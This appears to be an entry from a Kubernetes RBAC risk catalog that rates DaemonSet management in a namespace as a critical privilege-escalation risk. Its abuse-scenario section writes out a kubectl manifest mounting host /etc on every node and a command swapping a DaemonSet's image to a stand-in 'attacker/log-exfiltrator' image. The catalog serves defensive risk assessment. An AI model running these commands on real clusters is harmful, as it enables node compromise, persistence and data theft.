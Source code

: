 ```yaml
---
id: 1036
title: "Manage DaemonSets in a namespace (runs on nodes, high impact)"
description: "Allows creating, updating, or deleting DaemonSets within a specific namespace. Even if namespaced, DaemonSets can be configured to run on multiple nodes, and if they deploy privileged pods, this can lead to node compromise, privilege escalation, and persistence."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                        |
| ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1036                                                                                                                                         |
| Name                    | Manage DaemonSets in a namespace (runs on nodes, high impact)                                                                                |
| Risk Category           | Elevation of Privilege                                                                                                                       |
| Risk Level              | {{< risk Critical >}}                                                                                                                        |
| Role Type               | Role                                                                                                                                         |
| API Groups              | apps                                                                                                                                         |
| Resources               | daemonsets                                                                                                                                   |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                                     |
| Tags                    | {{< tag "NodeAccess" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting DaemonSets within a specific namespace. Even if namespaced, DaemonSets can be configured to run on multiple nodes, and if they deploy privileged pods, this can lead to node compromise, privilege escalation, and persistence.

## Abuse Scenarios

1. Create a new DaemonSet with hostPath access in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: hostpath-daemonset
spec:
  selector:
    matchLabels:
      app: hostpath-ds
  template:
    metadata:
      labels:
        app: hostpath-ds
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-etc
          name: host-etc
      volumes:
      - name: host-etc
        hostPath:
          path: /etc
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing DaemonSet's image to a malicious one.

```bash
kubectl set image daemonset/<daemonset-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image daemonset/my-logging-agent agent=attacker/log-exfiltrator -n monitoring

```
